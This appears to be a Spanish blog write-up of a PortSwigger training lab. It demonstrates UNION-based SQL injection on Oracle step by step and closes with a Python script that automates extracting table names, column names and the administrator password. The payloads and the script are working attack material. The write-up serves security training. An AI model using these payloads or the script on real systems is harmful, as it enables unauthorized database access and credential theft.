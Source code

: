```yaml
---
title: "10 SQL injection attack, listing the database contents on Oracle"
collection: publications
category: portswigger
permalink: /publications/10_SQL injection attack, listing the database contents on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos Oracle que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-10/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-10/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-10/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-10/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', ya que es una BD oracle debemos llamar la  tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-10/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-10/version.png)

## Obtenemos todas las tablas

Ya sabemos que es una BD Oracle debemos listar las tablas

```javascript
' UNION SELECT table_name, NULL FROM all_tables--
```

```Tabla
USERS_HZTDAO
```

![tablas]({{site.url}}/images/SQLi/sqli-10/tablas.png)

## Obtenemos el nombre de las columnas

Ya sabemos que la tabla se llama `USERS_HZTDAO` ahora listamos las filas de la tabla

```javascript
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_HZTDAO'--
```

```
USERNAME_PFWFAV
PASSWORD_RXDLTE
```

![nombre columnas]({{site.url}}/images/SQLi/sqli-10/nombre columnas.png)

## Listamos el usuario y password

```javascript
' UNION select USERNAME_PFWFAV, PASSWORD_RXDLTE from USERS_HZTDAO--
```

![Password]({{site.url}}/images/SQLi/sqli-10/password.png)

## Realizamos Login

![Login]({{site.url}}/images/SQLi/sqli-10/login.png)

## Resuelto

![Login]({{site.url}}/images/SQLi/sqli-10/Aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = "/filter?category=Gifts"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text

def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM all_tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('^USERS\_.*'))
    return users_table

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = '%s'-- " % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*USERNAME.*'))
    password_column = soup.find(text=re.compile('.*PASSWORD.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" % (username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for the users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s " % username_column)
            print("Found the password column name: %s" % password_column)

            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("Did not find the administrator password")
        else:
            print("Did not find the username and/or the password columns")
    else:
        print("Did not find a users table.")
```
